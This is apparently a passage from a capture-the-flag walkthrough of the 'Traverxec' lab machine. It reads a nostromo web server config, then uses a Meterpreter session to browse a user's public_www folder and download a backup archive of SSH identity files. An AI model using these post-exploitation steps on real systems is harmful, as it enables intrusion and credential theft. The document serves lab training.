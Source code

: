 ```console
serverlisten    *
serveradmin   david@traverxec.htb
serverroot    /var/nostromo
servermimes   conf/mimes
docroot     /var/nostromo/htdocs
docindex    index.html

# LOGS [OPTIONAL]

logpid      logs/nhttpd.pid

# SETUID [RECOMMENDED]

user      www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess    .htaccess
htpasswd    /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons      /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs    /home
homedirs_public   public_www

```

The configuration file above indicates the existence of a `public_www` directory inside the `/home` directory. After some trial and error, we can determine that this is David's home directory, as he's the admin.


```
meterpreter > cd /home/david/public_www
meterpreter > ls
Listing: /home/david/public_www
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  402   fil   2019-10-25 15:45:10 -0400  index.html
40755/rwxr-xr-x   4096  dir   2019-10-25 17:02:59 -0400  protected-file-area
```

Now we find a directory named `protected-file-area` inside of `/home/david/public_www`. This folder contains `backup-ssh-identity-files.tgz`, which we can hopefully use to gain user access to the box as david.

```
meterpreter > cd ./protected-file-area
meterpreter > ls
Listing: /home/david/public_www/protected-file-area
===================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  45    fil   2019-10-25 15:46:01 -0400  .htaccess
100644/rw-r--r--  1915  fil   2019-10-25 17:02:59 -0400  backup-ssh-identity-files.tgz

meterpreter > download ./backup-ssh-identity-files.tgz ./
[*] Downloading: ./backup-ssh-identity-files.tgz -> .//backup-ssh-identity-files.tgz
```